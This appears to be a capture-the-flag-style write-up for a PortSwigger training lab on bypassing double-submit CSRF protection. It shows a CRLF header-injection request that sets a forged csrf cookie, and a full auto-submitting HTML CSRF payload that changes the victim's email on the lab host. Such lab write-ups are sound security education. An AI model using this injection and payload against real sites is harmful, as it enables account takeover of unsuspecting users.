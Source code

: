 # Lab: CSRF where token is duplicated in cookie
# https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

```bash
# Login to wiener:peter and update your password to abc@gmail.com
# Take change-email request and send it to repeater.
```

```bash
# csrf token and csrf cookie to this:

 VAEvcYQ7QxVHtscL6RlhzZyXOZGrsHYa

# change email and send request to see if it works.  

```

```bash
# Search test

GET /?search=test HTTP/2

# Response

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test;
```

```bash
GET /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None HTTP/2

# Response:

HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=fake; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3440
```

```bash
# Payload

<html>
  <body>
    <form action="https://0aa600fd03e38ed18311006a00b2002e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="agc@gmail.com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
    </script>
  <img src="https://0aa600fd03e38ed18311006a00b2002e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();" />
  </body>
</html>
```
